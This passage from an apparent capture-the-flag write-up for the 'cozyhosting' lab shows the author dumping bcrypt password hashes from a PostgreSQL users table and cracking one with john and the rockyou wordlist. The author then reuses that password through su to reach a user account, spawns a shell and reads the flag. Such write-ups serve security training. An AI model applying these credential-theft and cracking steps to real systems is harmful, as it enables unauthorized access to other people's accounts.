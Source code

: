 Success, now let's search more.

We find a users table in the cozyhosting database containing the `"admin"` password and `"kanderson"` password. These are hashed so we must unhash them.

```
\c cozyhosting
You are now connected to database "cozyhosting" as user "postgres".
\d
List of relations
Schema | Name | Type | Owner
--------+--------------+----------+----------
public | hosts | table | postgres
public | hosts_id_seq | sequence | postgres
public | users | table | postgres
(3 rows)
select * from users;
name | password | role
-----------+--------------------------------------------------------------+-------
kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
admin | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
(2 rows)
```

To unhash, I save the passwords to hash.txt and run them on john (a new tool to me so wanted to try it). Using ChatGPT, I determined what type of encryption the hash is. It is encrypted with bcrypt.

Using john to crack the hashes, it found one password I can try `"manchesterunited"`.

```
-[Thu Feb 29-10:50:39]-[table@parrot]-
-[~]$ john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
manchesterunited (?)
```

I tried to log in to the web portal as `"admin"` with that password. No luck. I noticed a user directory in the `/home` folder named josh. I try to login as josh with `su josh`:

```
app@cozyhosting:/$ cd /home
cd /home
app@cozyhosting:/home$ ls
ls
josh
app@cozyhosting:/home$ su josh
su josh
Password: manchesterunited
python3 -c 'import pty; pty.spawn("/bin/bash")'
josh@cozyhosting:~$ ls
ls
user.txt
josh@cozyhosting:~$ cat user.txt
cat user.txt
70ed2ab8d4ac574e826b6dd914267bc9
User flag = 70ed2ab8d4ac574e826b6dd914267bc9
```
